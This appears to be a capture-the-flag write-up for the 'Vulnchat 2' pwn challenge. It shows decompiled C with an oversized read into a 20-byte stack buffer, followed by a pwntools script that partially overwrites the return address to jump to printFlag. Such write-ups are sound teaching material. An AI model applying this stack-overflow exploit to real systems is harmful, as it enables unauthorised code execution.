 # Vulnchat 2  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/f731f04f-2fca-446a-a740-a682510119bd)

There's not much to say here, look at [pwn2](7.PartialOverwrite/tamu19_pwn2.md) for more details on this kind of challenge.  

```c 
void doThings(void)

{
  undefined buf [20];
  undefined user [15];
  
  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf(&%15s,user);
  printf("Welcome %s!\n",user);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: You\'ve proven yourself to me. What information do you need?");
  printf("%s: ",user);
  read(0,buf,0x2d);
  puts("djinn: Alright here\'s you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  puts("djinn: Wait thats not right...");
  return;
}
```

Again, we can partially overwrite the return address to return to a `printFlag` function.  

```python
from pwn import *

exe = context.binary = ELF(args.EXE or 'vuln-chat2.0')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

io.sendline("UserName")

payload = 0x2b*b'A' + (exe.sym["printFlag"] & 0xffff).to_bytes(2,'little')
io.sendline(payload)

io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/2055b120-e4b3-4194-a800-c43f0cea5ba5)

